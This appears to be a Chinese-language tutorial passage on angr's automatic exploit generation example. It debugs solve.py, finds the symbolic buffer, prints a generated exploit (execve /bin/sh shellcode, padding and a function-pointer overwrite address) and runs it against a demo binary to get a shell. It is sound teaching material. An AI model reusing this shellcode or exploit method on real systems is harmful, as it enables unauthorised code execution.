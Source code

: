接下来，获得 `symbolic buffer,` 访问 memory，设定利用约束

```python
> /home/angr/angr-doc/examples/insomnihack_aeg/solve.py(91)main()
     89         l.info("found symbolic buffer at %#x", buf_addr)
5    90         memory = ep.memory.load(buf_addr, len(shellcode))
---> 91         sc_bvv = ep.solver.BVV(shellcode)
     92 
     93         # check satisfiability of placing shellcode into the address

ipdb> memory                                                                     
<BV176 packet_0_stdin_81_1024[1023:848]>
```

输出获得 `buffer` 地址为 `0x804a060`

```python
ipdb> hex(buf_addr)                              
'0x804a060'
```

在 IDA 中查看，发现 `0x804A060` 为 `component_name` 地址。

```asm
.bss:0804A060 component_name  db    ? ;               ; DATA XREF: sample_func+D↑o
.bss:0804A060                                         ; main+1D↑o ...
.bss:0804A061                 db    ? ;
.bss:0804A062                 db    ? ;
.bss:0804A063                 db    ? ;
.bss:0804A064                 db    ? ;
.bss:0804A065                 db    ? ;
```

最后运行到约束求解。获得 `exploit` 部分，输出查看

```python
ipdb> ep.posix.dumps(0)                                                                   
b'jhh///sh/bin\x89\xe31\xc9j\x0bX\x99\xcd\x80\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01`\xa0\x04\x08\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```

我们可以看到生成的 exploit 内容，即 `shellcode+padding+shellcode_addr` 

从而达到覆盖 `do_something` 函数指针为 `shellcode` 地址的目的。



### 验证 exploit

```python
(angr) angr@f6839fc38468:~/angr-doc/examples/insomnihack_aeg$ (cat ./demo_bin-exploit;  echo BUMO) | ./demo_bin # 获得 shell 后执行命令 echo BUMO
Component Name:
Initializing component...
Copying component name...
Running component...
 - BUMO #可以输出 BUMO
 - recieved argument 1
```
